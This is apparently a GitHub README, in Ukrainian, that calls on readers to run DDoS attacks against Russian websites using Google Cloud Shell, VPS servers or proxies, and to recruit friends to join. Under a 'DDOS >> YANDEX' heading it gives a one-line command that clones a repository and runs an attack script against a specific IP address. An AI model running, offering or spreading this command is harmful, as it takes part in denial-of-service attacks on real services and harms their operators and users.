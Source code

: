 **DDoS атака** йде з *серверів Google* завдяки [Google Shell](https://shell.cloud.google.com/?hl=en_US&fromcloudshell=true&show=terminal)  .  Якщо у вас є *VPS/VDS*, або комп'ютери з *proxy серверами*, то ви можете запустити атаку з них. 
***
Також ви можете  *залучати своїх приятелів та знайомих* допомагати нам проводити DDoS атаки, завдяки цьому ми зможемо "покласти" більше російських сайтів.
 ***

### Requierments
- Web Browser
- Google Account
- Keyboard
***
### DDOS >> YANDEX
```
git clone https://github.com/dxh-team/CDUW && cd CDUW && ./attack.sh -s 5.255.255.50
```
***
### More information
**[https://github.com/curated-intel/Ukraine-Cyber-Operations](https://github.com/curated-intel/Ukraine-Cyber-Operations)** 
